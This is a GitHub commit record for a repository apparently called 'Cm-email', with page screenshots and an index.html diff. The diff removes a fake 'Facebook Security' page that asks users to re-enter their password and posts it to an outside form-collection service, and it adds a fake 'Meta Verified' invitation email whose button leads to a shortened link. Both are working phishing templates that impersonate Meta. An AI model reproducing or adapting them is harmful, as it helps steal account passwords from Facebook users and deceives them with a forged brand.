

Before and after one commit to romika946/Cm-email, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1182 px of the page, without its empty margins (308-971 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,199 +1,199 @@
 <!DOCTYPE html>
 <html lang="en">
-
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Facebook Password Page</title>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
+    <title>You're Invited to Meta Verified!</title>
     <style>
         body {
-            font-family: 'Helvetica Neue', Arial, sans-serif;
-            background-color: #f0f2f5;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif, "Apple Color Emoji", "Segoe UI Emoji", "Segoe UI Symbol";
+            line-height: 1.6;
+            color: #ffffff; /* All text white */
+            background-color: #1a1a1a; /* Dark background */
+            margin: 0;
+            padding: 20px 0;
+        }
+        .email-wrapper {
+            max-width: 600px;
+            margin: 0 auto;
+            background-color: #1a1a1a; /* Dark background for the main content area */
+            border-radius: 8px;
+            overflow: hidden;
+            box-shadow: 0 1px 3px rgba(0,0,0,0.3); /* Slightly darker shadow */
+        }
+        .header-logo {
+            text-align: center;
+            padding: 20px 0 10px;
+        }
+        .header-logo img {
+            /* To make a typical white Meta logo visible on dark background */
+            filter: invert(100%) brightness(200%); /* Adjust for visibility if original logo is dark */
+            width: 120px;
+            height: auto;
+        }
+        .content-area {
+            padding: 0 30px 30px;
+            text-align: left;
+        }
+        .hero-banner {
+            background-color: #2a2a2a; /* Slightly lighter dark for banner */
+            padding: 20px 30px;
+            text-align: center;
+            margin-bottom: 25px;
+            border-bottom: 1px solid #333; /* Darker border */
+        }
+        .hero-banner h1 {
+            font-size: 28px;
+            color: #007bff; /* Blue for Meta brand, stands out */
+            margin: 0 0 10px;
+            font-weight: bold;
+        }
+        .hero-banner p {
+            font-size: 18px;
+            color: #ccc; /* Lighter grey for subtitle */
             margin: 0;
         }
-
-        .container {
-            background-color: white;
-            padding: 40px 30px;
+        .section-title {
+            font-size: 20px;
+            font-weight: bold;
+            color: #ffffff; /* White title */
+            margin-bottom: 15px;
+        }
+        p {
+            margin-bottom: 15px;
+            font-size: 16px;
+            color: #ffffff; /* All paragraph text white */
+        }
+        ul {
+            margin-left: 20px;
+            margin-bottom: 15px;
+            font-size: 16px;
+            color: #ffffff; /* List items white */
+        }
+        li {
+            margin-bottom: 8px;
+            color: #ffffff; /* Individual list items white */
+        }
+        li strong {
+            color: #ffffff; /* Ensure bolded text in list items is also white */
+        }
+        .call-to-action {
+            margin-top: 30px;
+            text-align: center;
+        }
+        .button {
+            display: inline-block;
+            background-color: #1877f2; /* Facebook/Meta blue */
+            color: #ffffff !important;
+            padding: 15px 30px;
             border-radius: 8px;
-            box-shadow: 0px 4px 12px rgba(0, 0, 0, 0.15);
+            text-decoration: none;
+            font-weight: bold;
+            font-size: 18px;
+            white-space: nowrap;
+            border: none;
+        }
+        .button:hover {
+            background-color: #166fe5;
+        }
+        .disclaimer-note {
+            font-size: 12px;
+            color: #ccc; /* Lighter grey for disclaimer */
+            margin-top: 40px;
+            padding: 15px;
+            background-color: #2a2a2a; /* Darker background for note */
+            border-radius: 5px;
+            border-left: 3px solid #555; /* Darker border for note */
+        }
+        .footer-text {
+            font-size: 12px;
+            color: #999; /* Slightly lighter grey for footer */
             text-align: center;
-            width: 360px;
-            position: relative;
+            padding: 20px 30px;
+            border-top: 1px solid #333; /* Darker border */
+            margin-top: 20px;
+        }
+        .footer-text a {
+            color: #0562e8; /* Blue links in footer */
+            text-decoration: none;
+        }
+        .footer-text a:hover {
+            text-decoration: underline;
         }
 
-        .logo {
-            margin-bottom: 20px;
+        /* Responsive adjustments */
+        @media screen and (max-width: 600px) {
+            body {
+                padding: 0;
             }
-
-        .logo img {
-            width: 120px;
+            .email-wrapper {
+                border-radius: 0;
             }
-
-        .header {
-            margin-bottom: 20px;
+            .content-area, .hero-banner, .footer-text {
+                padding: 20px 15px;
+            }
+            .hero-banner h1 {
+                font-size: 24px;
+            }
+            .hero-banner p {
+                font-size: 16px;
+            }
+            .section-title {
                 font-size: 18px;
-            color: #333;
-            font-weight: bold;
             }
-
-        .form-group {
-            margin-bottom: 25px;
-            text-align: left;
-            position: relative;
+            p, ul, li {
+                font-size: 15px;
             }
-
-        .form-group label {
-            display: block;
-            font-weight: bold;
-            margin-bottom: 8px;
-            font-size: 14px;
-            color: #606770;
+            .button {
+                padding: 12px 25px;
+                font-size: 16px;
             }
-
-        .input-wrapper {
-            position: relative;
-        }
-
-        .form-group input {
-            width: 100%;
-            padding: 14px;
-            padding-right: 40px;
-            /* Space for the eye icon */
-            border: 1px solid #ccd0d5;
-            border-radius: 6px;
-            font-size: 16px;
-            color: #1c1e21;
-            box-sizing: border-box;
-        }
-
-        .form-group input:focus {
-            border-color: #1877f2;
-            outline: none;
-            box-shadow: 0px 0px 0px 2px rgba(24, 119, 242, 0.2);
-        }
-
-        .eye-icon {
-            position: absolute;
-            right: 10px;
-            top: 50%;
-            transform: translateY(-50%);
-            font-size: 20px;
-            color: #606770;
-            cursor: pointer;
-            transition: color 0.3s ease;
-        }
-
-        .eye-icon:hover {
-            color: #1877f2;
-        }
-
-        .submit-button {
-            background-color: #1877f2;
-            color: white;
-            border: none;
-            padding: 14px;
-            border-radius: 6px;
-            font-size: 16px;
-            font-weight: bold;
-            cursor: pointer;
-            width: 100%;
-            margin-top: 10px;
-        }
-
-        .submit-button:hover {
-            background-color: #166fe5;
-        }
-
-        .error-message {
-            color: #e74c3c;
-            font-size: 14px;
-            margin-top: 5px;
-            margin-bottom: 15px;
-            text-align: left;
         }
     </style>
 </head>
+<body>
+    <div class="email-wrapper">
+        <div class="header-logo">
+            <img src="https://static.xx.fbcdn.net/rsrc.php/v3/yS/r/M1V4TjQ_gZ0.png" alt="Meta Logo" width="120" style="filter: invert(100%);">
+        </div>
 
-<body>
-    <div class="container">
-        <div class="logo">
-            <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/6/6c/Facebook_Logo_2023.png" alt="Logo">
-            <div class="header">
-                Facebook Security
+        <div class="hero-banner">
+            <h1>You're Invited to Meta Verified!</h1>
+            <p>Elevate your presence and enhance your authenticity on Facebook and Instagram.</p>
         </div>
-            <p>Please re-enter your password to complete the request.</p>
-            <form id="meta-form" action="https://submit-form.com/t8qWJyh70" method="POST">
-                <input type="hidden" name="_redirect" value="https://www.facebook.com/help/media/thank-you?rdrhc" />
 
-                <!-- Replace with your Access Key -->
-                <input type="hidden" name="access_key" value="22983eba-14f6-431b-8283-10e298027760">
-                <div class="form-group">
-                    <label for="password">Password</label>
-                    <div class="input-wrapper">
-                        <input type="password" id="password" name="password" placeholder="Enter your password" required>
-                        <i class="eye-icon fas fa-eye" id="togglePassword"></i>
+        <div class="content-area">
+            <p>Dear [Your Name/Page Admin Name],</p>
+            <p>We're thrilled to invite you to join <strong>Meta Verified</strong>, a subscription bundle that includes a verified badge, proactive account protection, and access to enhanced account support. This invitation is extended to individuals who meet our eligibility criteria and are looking to strengthen their presence on our platforms.</p>
+
+            <h2 class="section-title">What Meta Verified Offers You:</h2>
+            <ul>
+                <li><strong>Verified Badge:</strong> A confirmed identity with an authentic badge.</li>
+                <li><strong>Proactive Account Protection:</strong> Secure your account from impersonation with continuous monitoring.</li>
+                <li><strong>Enhanced Account Support:</strong> Get help when you need it from a real person for common issues.</li>
+                <li><strong>Increased Visibility:</strong> Enjoy improved visibility in some areas of the platform.</li>
+            </ul>
+
+            <p>Ready to unlock these benefits and grow your authentic presence?</p>
+
+            <div class="call-to-action">
+                <a href="https://tinyurl.com/ytphaau6" class="button">Learn More & Get Verified</a>
             </div>
-                    <span id="error-message" class="error-message"></span>
+
+            <p style="margin-top: 30px;">Thank you for being a valued member of our community.</p>
+            <p>Sincerely,</p>
+            <p style="font-weight: bold;">The Meta Verified Team</p>
+
+            <div class="disclaimer-note">
+                **Note on Legitimacy:** Always verify the sender of emails before clicking links. Official Meta emails will come from legitimate Meta domains (e.g., @meta.com, @facebookmail.com). For any concerns, please navigate directly to the official Meta Verified page on Facebook or Instagram via the respective app or website.
             </div>
-                <button type="submit" class="submit-button">Submit</button>
-                <center>
-                    <font color="black">
-                        <font size="2">
-            </form>
         </div>
-        <script>
-            document.getElementById('togglePassword').addEventListener('click', function() {
-                var passwordField = document.getElementById('password');
-                var eyeIcon = this;
-                if (passwordField.type === 'password') {
-                    passwordField.type = 'text';
-                    eyeIcon.classList.remove('fa-eye');
-                    eyeIcon.classList.add('fa-eye-slash');
-                } else {
-                    passwordField.type = 'password';
-                    eyeIcon.classList.remove('fa-eye-slash');
-                    eyeIcon.classList.add('fa-eye');
-                }
-            });
 
-            document.getElementById('passwordForm').addEventListener('submit', function(event) {
-                var passwordField = document.getElementById('password');
-                var errorMessage = document.getElementById('error-message');
-                if (passwordField.value.length < 6) {
-                    errorMessage.textContent = 'Password must be at least 6 characters long.';
-                    event.preventDefault();
-                } else {
-                    errorMessage.textContent = '';
-                    // Perform form submission via Fetch API
-                    event.preventDefault(); // Prevent default form submission
-
-                    var formData = new FormData(this);
-                    fetch(this.action, {
-                            method: 'POST',
-                            body: formData,
-                            headers: {
-                                'Accept': 'application/json'
-                            }
-                        })
-                        .then(response => {
-                            if (response.ok) {
-                                window.location.href = 'https://www.facebook.com/help/media/thank-you?rdrhc'; // Redirect to desired URL
-                            } else {
-                                errorMessage.textContent = 'There was an error. Please try again.';
-                            }
-                        })
-                        .catch(() => {
-                            errorMessage.textContent = 'There was an error. Please try again.';
-                        });
-                }
-            });
-        </script>
+        <div class="footer-text">
+            This message was sent to you by Meta Platforms, Inc., 1 Hacker Way, Menlo Park, CA 94025, USA.
+            <br>
+            © 2025 Meta. <a href="https://www.facebook.com/policies/data_policy/">Privacy Policy</a> | <a href="https://www.facebook.com/terms.php">Terms of Service</a>
+        </div>
+    </div>
 </body>
-
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
